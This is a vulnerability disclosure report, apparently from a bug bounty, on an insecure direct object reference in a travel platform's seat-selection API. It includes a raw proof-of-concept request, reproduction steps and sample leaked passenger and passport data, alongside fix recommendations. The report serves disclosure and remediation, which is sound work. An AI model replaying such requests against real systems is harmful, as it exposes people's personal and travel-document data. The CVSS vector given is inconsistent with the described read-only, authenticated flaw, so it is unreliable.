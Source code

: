 

**Target:** `staging-prime.navan.com`

**Report date:** 2025-10-12

**Reported by:** Hassan Habib (provided PoC)

---

## 1. Executive summary

An Insecure Direct Object Reference (IDOR) exists in the seat-selection/passenger lookup flow. By changing the `passengerUuid` value in the JSON body of the seat selection endpoint request, an attacker can read full passenger profile information (including PII such as full name, birthdate, phone, email, passport number and expiry) for _any_ passenger whose UUID is known. UUIDs for passengers are trivial to discover (or can be obtained via invite/trip flows), making the vulnerability easily exploitable.

This allows unauthorized disclosure of sensitive PII and travel document data and therefore should be treated as **High** severity.

---

## 2. Affected endpoints (observed)

- `POST /api/v1/trip/flight/searches/{searchUuid}/contracts/{contractUuid}/flightsegments/{segmentIndex}/selectseat?fullSeatMap=true&seat={seat}`
    

(Other endpoints that accept `passengerUuid` as input may also be affected — review all API endpoints and handlers that accept passenger UUIDs client-side.)

---

## 3. Proof of concept (PoC)

> **Note:** sensitive values (Authorization, session cookies) are redacted. Do not store or transmit live tokens in attachments.

**Request (raw HTTP / Burp-style):**

```
POST /api/v1/trip/flight/searches/82f0fa18-fa6c-40b1-b9ec-53bef45dafc1/contracts/ad9dd2a5-0c74-4ffe-8b4b-75cf4ca3b119/flightsegments/0/selectseat?fullSeatMap=true&seat=1A HTTP/2
Host: staging-prime.navan.com
User-Agent: [REDACTED]
Accept: application/json, text/plain, application/pdf
Content-Type: application/json
Authorization: TripActions [REDACTED_JWT]
Cookie: [REDACTED]
Origin: https://staging-prime.navan.com

{"passengerUuid":"0172ca2b-3cf7-4c0e-8cc6-23b05e43c36c","airlineLoyaltyCards":{}}
```

**Exploit:** Change `passengerUuid` to any other UUID (e.g. obtained via invites, user lists, earlier API responses or guessable identifiers). The server returns the passenger record in the response body.

**Example response (redacted sensitive fields):**

```
HTTP/2 200 OK
Content-Type: application/json

{ "passenger": { "uuid": "0172ca2b-3cf7-4c0e-8cc6-23b05e43c36c", "givenName": "Habibi", "familyName": "me", "birthdate":"1994-10-10", "contact": { "phone": { "number": "+16468213544" }, "email": "bold-wood-9978@bugcrowdninja-124.com" }, "passport": { "number": "B7F4K2M9Q", "countryOfIssue":"GB", "expiresOn": "2030-10-10" }, ... }, "seats": ["1A"] }
```

(Full returned JSON contained multiple PII and passport fields.)

---

## 4. Impact

- **Data confidentiality breach:** Full passenger PII (name, DOB, phone, email) and passport data are exposed.
    
- **Privacy / regulatory risk:** Depending on customer jurisdiction, exposure of passport numbers and DOB may trigger data protection rules (e.g., GDPR, PDPA) and require breach reporting.
    
- **Account takeover / targeted attacks:** Knowledge of phone/email/passport increases risk of phishing, SIM swap, social engineering, or travel fraud.
    
- **Lateral movement:** If similar lack of access control exists on other endpoints, an attacker may enumerate passengers and retrieve sensitive travel records across bookings.
    

Severity: **High** (sensitive personal data + passport numbers disclosure). CVSS (approx.): **7.5 (HIGH)** — vector: `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` (example).

---

## 5. Root cause (likely)

- The server trusts a client-provided `passengerUuid` parameter to return passenger details without verifying that the caller is authorized to access that passenger record.
    
- Missing or insufficient ownership/authorization check: the backend does not verify passenger -> booking/contract or caller relationship.
    

---

## 6. Reproduction steps (concise)

1. Authenticate as a legitimate user (or use valid session/JWT in the `Authorization` header).
    
2. Send a `POST` request to the seat selection endpoint with `passengerUuid` set to another passenger's UUID (e.g., one discovered via an invite flow, previously-known booking UUIDs, or from client side metadata).
    
3. Observe HTTP 200 and returned passenger object containing PII.
    

---

## 7. Mitigation & recommended fixes

**Short-term / immediate mitigations**

- **Apply server-side authorization checks** for any request that includes `passengerUuid`. Ensure that the requesting user (or client) is authorized to view or modify the passenger resource: verify passenger belongs to the booking/contract and the caller's company or role has access.
    
- **Remove unnecessary PII** from seat-selection responses — only return minimal data required for seat assignment (for example, passenger display name or masked identifiers) rather than full passport numbers and DOB.
    
- **Audit logs & rotate credentials**: assume data exposure and rotate any long-lived tokens if needed; audit access logs for suspicious activity.
    

**Long-term / secure design changes**

1. Use association checks: when `passengerUuid` is provided, the backend must validate: `passengerUuid ∈ booking.passengers` and `booking.contract` belongs to caller's tenant/company or that caller has an admin role.
    
2. Enforce least privilege: only return fields required by the client flow. Mask or omit passport numbers and full DOB unless explicitly needed and properly authorized.
    
3. Introduce parameter binding: prefer using server-generated session-bound identifiers (non-guessable, short-lived references) rather than accepting raw UUIDs that map to global objects.
    
4. Add automated tests (unit/integration) to verify access control rules for passenger-related endpoints.
    
5. Add rate limiting and monitoring on passenger enumeration patterns.
    

**Developer checklist**

-  Validate passenger ownership against booking/contract and caller identity.
    
-  Remove/obfuscate passport and sensitive fields in non-authorized responses.
    
-  Add unit tests for negative cases (accessing passenger of another company should return 403).
    
-  Add audit logging for passenger data access.
    

---

## 8. Suggested response codes

- Unauthorized access should return **403 Forbidden** (or 404 Not Found to avoid leaking existence) when the passenger is not accessible to the caller.
    

---

## 9. Suggested timeline and disclosure

- **Immediate:** Fix authorization check and sanitize responses.
    
- **Within 24–72 hours:** Rotate any compromised tokens if there is evidence of mass enumeration.
    
- **Within 7 days:** Deploy tests and monitoring to prevent regression.
    

---

## 10. Appendix: additional notes

- UUID discovery: UUIDs can often be leaked by other API responses (invites, search results, trip creation responses), so it is critical to treat any client-provided identifier as untrusted.
    
- Audit other endpoints that accept `passengerUuid`, `userUuid`, `employeeId`, or similar parameters.
    

---

## 11. Contact

If you want, I can convert this report into a formatted PDF or Word document suitable for submission to the engineering team, or prepare a short remediation checklist for your ticketing system.

_End of report._